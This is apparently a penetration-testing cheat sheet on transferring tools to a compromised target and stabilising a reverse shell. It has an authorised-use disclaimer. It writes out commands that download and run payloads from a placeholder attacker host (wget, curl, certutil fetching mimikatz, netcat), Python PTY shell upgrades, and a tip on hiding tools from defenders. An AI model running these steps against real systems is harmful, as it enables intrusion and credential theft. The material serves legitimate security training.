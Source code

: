 # Transferring Files → Upgrading Shells 

> ⚠️ **Only on systems you are explicitly authorized to test.**
> These notes show simple, native ways to move tools to a target and make a fragile shell usable for interactive work.

---

## Transferring files to a target 

Common pattern when you *don’t* have a full management session (Meterpreter, WinRM, SSH):

1. Host the file(s) on your attacker machine (HTTP server).
2. From the target, download the file using native utilities (wget, curl, certutil, powershell, etc.).
3. Make executable and run (if needed).

This two-step approach avoids needing complex upload helpers and works even when the target is very locked down.

---

## 1) Quick web server with Python

**Python 3**

```bash
# in the directory containing files you want to serve
python3 -m http.server 8080
```

**Python 2**

```bash
python -m SimpleHTTPServer 80
# or:
python -m SimpleHTTPServer 443
```

* Serves files from the current directory.
* Logs basic GET/404 requests to stdout.
* Choose a port your target can reach (80/443/8080 are common).

---

## 2) Downloading files from the target

### Linux / macOS

```bash
# download to current directory
wget http://<attacker-ip>:8080/payload.php
# or
curl -O http://<attacker-ip>:8080/linpeas.sh
```

### Windows (native: certutil)

Useful when PowerShell is restricted:

```powershell
CertUtil -urlcache -f http://<attacker-ip>/mimikatz.exe mimikatz.exe
```

* Saves remote file as `mimikatz.exe` (or any filename you choose).
* Works without a browser.

### Alternative transfer: Netcat 

On attacker:

```bash
nc -nvlp 9000 < ./file_to_send
```

On target:

```bash
nc <attacker-ip> 9000 > received_file
chmod +x received_file
```

---

## 3) Upgrading non-interactive shells

When you get a basic reverse shell it may be non-interactive . Use these to spawn an interactive shell.

### Quick try: bash interactive

```bash
/bin/bash -i
```

If this works you’ll get prompt-like behavior immediately.

### Check available shells

```bash
cat /etc/shells
```

Common entries: `/bin/bash`, `/bin/sh`, `/bin/dash`

### Python PTY
```bash
# Python 3
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Python 2
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Perl / Ruby fallbacks

```bash
# Perl
perl -e 'exec "/bin/bash";'

# Ruby
ruby -e 'exec "/bin/bash"'
```

These spawn a bash process under the context of the current shell/session.

---

## 4) Fixing the environment (PATH, TERM, SHELL)

After upgrading you often need to set environment variables so command lookup, terminal behavior, and interactive features work properly.

```bash
# Inspect current env
env

# Set PATH so common commands are found
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# Set terminal type for correct line editing & colors
export TERM=xterm

# Set SHELL variable (not strictly required but useful)
export SHELL=/bin/bash
```

### Why do this?

* **PATH**: If PATH is empty or minimal, commands like `ls`, `wget`, `which` may not run because the shell can't find them. Exporting PATH ensures the shell can locate binaries.
* **TERM**: Terminal type controls how programs handle cursor movement, colors, and special keys. Without a proper TERM programs like `vim`, `less`, or interactive shells might misbehave.
* **SHELL**: Declaring `SHELL` helps some programs determine startup behavior; not always required but a good practice.

Setting these is **recommended** to stabilize the session — many scripts and tooling expect them.

---

## 5) Verify and use common utilities

After upgrading and fixing environment variables, verify commands work:

```bash
ls -alps
which wget || echo "wget missing"
wget http://<attacker-ip>:8080/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
```

---

## 6) Simple ASCII diagram (flow)

```
[Attacker machine]
   (python3 -m http.server 8080)
         |
  http://<attacker-ip>:8080/payload
         |
    [Target machine]
   wget / curl / certutil
         |
  saved file → chmod +x → execute
         |
  if shell is non-interactive:
    python -c 'import pty; pty.spawn("/bin/bash")'
    export PATH=...
    export TERM=xterm
```

---

## 7) Quick notes & hygiene

* Avoid `/tmp` on monitored systems if you can — defenders often monitor uploads there. Prefer less obvious directories depending on rules of engagement.
* Always `chmod +x` binaries/scripts after transfer if they need execute permission.
* If you must use `python -m http.server` over a public network, consider firewall and exposure risks — run in a controlled lab or ephemeral environment.
* Always document transfers in your notes/report (file, hashes, timestamps) and remove tools when done if the engagement requires cleanup.

---
